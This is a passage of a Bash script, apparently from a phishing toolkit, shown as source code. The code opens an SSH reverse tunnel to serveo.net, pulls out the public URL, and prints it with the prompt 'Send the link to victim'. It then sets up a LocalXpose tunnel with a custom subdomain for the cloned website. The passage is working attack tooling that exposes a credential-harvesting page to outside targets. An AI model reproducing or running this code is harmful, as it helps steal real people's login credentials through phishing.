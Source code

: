 else

$(which sh) -c 'ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -R 80:localhost:%s serveo.net > .nexlink 2> /dev/null &' $serveo_port

sleep 7

fi

serveo_link=$(grep -o '.\{0,0\}http.\{0,100\}' .nexlink)

smallbanner

printf "\e[0m\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Send the link to victim :\e[0m\e[1;93m %s \n" $serveo_link

datafound

}

start_loclx() {

loclx_default_choose_sub="Y"

loclx_default_sub="$website$RANDOM"

printf "\e[0m\n"

printf ' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Generate Custom Link ? \e[0m\e[1;91m[\e[0m\e[1;92mY\e[0m\e[1;91m/\e[0m\e[1;92mn\e[0m\e[1;91m] : \e[0m\e[1;93m'

read loclx_choose_sub

loclx_choose_sub="${loclx_choose_sub:-${loclx_default_choose_sub}}"

if [[ $loclx_choose_sub == "Y" || $loclx_choose_sub == "y" || $loclx_choose_sub == "Yes" || $loclx_choose_sub == "yes" ]]; then

loclx_custom_subdomain=true

sleep 1

printf "\e[0m\n"

printf ' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Input CUSTOM Subdomain : \e[0m\e[1;91m( \e[0m\e[1;92mDefault:\e[0m\e[1;93m %s \e[0m\e[1;91m )\e[0m\e[1;92m: \e[0m\e[1;93m' $loclx_default_sub

read loclx_subdomain

loclx_subdomain="${loclx_subdomain:-${loclx_default_sub}}"

sleep 1

fi

printf "\e[0m\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;91m ( \e[0m\e[1;96mhttp://127.0.0.1:4142\e[0m\e[1;91m )\e[0m\n"

sleep 1

